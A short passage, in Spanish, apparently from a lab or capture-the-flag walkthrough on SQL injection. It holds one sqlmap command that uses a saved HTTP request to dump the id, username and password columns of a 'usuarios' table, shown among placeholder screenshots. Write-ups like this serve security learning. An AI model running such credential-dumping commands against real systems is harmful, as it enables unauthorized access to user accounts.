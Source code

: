     <img src="../img/Pasted_image_20250102222858.png" width="500">
</p>

Ahora sabiendo que las columnas se llaman así, podremos ver el contenido de cada una haciendo lo siguiente.
```
sqlmap -r request.txt -D users -T usuarios -C id,username,password --dump
```

<p align="center">
    <img src="../img/Pasted_image_20250102222941.png" width="500">
</p>
<p align="center">